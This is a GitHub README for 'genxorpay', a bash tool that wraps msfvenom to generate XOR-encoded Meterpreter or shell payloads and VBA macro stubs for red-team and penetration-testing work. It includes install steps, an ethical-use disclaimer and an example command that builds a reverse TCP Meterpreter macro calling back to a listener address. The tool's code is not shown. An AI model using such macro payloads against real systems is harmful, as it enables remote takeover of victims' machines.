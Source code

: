 # genxorpay
(Generate XOR Payload) is a command-line tool built to simplify the creation of XOR-encoded shellcode using msfvenom, optimized for VBA macro delivery in offensive security engagements and red team operations. 

![Platform](https://img.shields.io/badge/platform-linux%20%7C%20macOS-brightgreen?style=flat-square)
![Language](https://img.shields.io/badge/language-bash-blue?style=flat-square)

---
### 🔥 Features
- ✅ Supports a wide range of **Meterpreter** and **Shell** payloads
- ✅ Auto-generates **VBA macro stubs** with XOR-decoded shellcode
- ✅ Saves raw `msfvenom` output and encoded buffers for analysis or reuse
- ✅ Optional **interactive clipboard mode** to quickly copy payloads, shellcode, or listener setup
- ✅ Automatically detects payload types and adjusts output (e.g., `.exe` for unsupported VBA payloads)
- ✅ Fully compatible with **Windows**, **Linux**, **macOS**, and **Android** payloads
- ✅ Debug log generation for reproducibility and audits

---
### 🔌 Clone the Repository

```bash
git clone https://github.com/yourname/genxorpay.git
cd genxorpay
chmod +x genxorpay.sh

# To use copy to clipboard features you will need to install xclip if you have not already done so
sudo apt install xclip 
```

---
### 📦 Example Use

```bash
./genxorpay.sh -p 3 -lhost 192.168.1.100 -lport 4444 -o macro.vba -raw raw.vba -i
```

This will:
- Generate a **reverse TCP Meterpreter** payload
- XOR-encode the shellcode
- Write a macro to `macro.vba`
- Save the raw shellcode to `raw.vba`
- Enter interactive mode for copying payload elements to clipboard

----
### 🎯 Intended Use

`genxorpay` is designed for:
- **Red team operations**
- **Penetration testing**
- **Macro payload development**
- **Payload encoding research**

> ⚠️ **Ethical Use Only:** This tool is intended for use in environments where you have explicit permission. Unauthorized use is illegal and unethical.

# TODO
### (Future To-Do)
- -e encoder and --iterations support for msfvenom

- Add --format or --binary override

- Add --test mode to auto-run payload in sandbox

- Add optional --encode-only mode for custom shellcode

- Handle msfvenom failure with --debug output

- Add integrity check of output bytes (e.g., checksum)

- Include SHA256 of output payloads in log (For hash checks on AV)

- Add --staged, --stageless, or --arch=x86/x64 options

### 🤝 Contributions
Contributions, ideas, and pull requests are welcome. Please file an issue if you discover a bug or want to propose a feature.

## 📎 Author

Made with ❤️ for security professionals by [Ninjarku](https://github.com/Ninjarku)
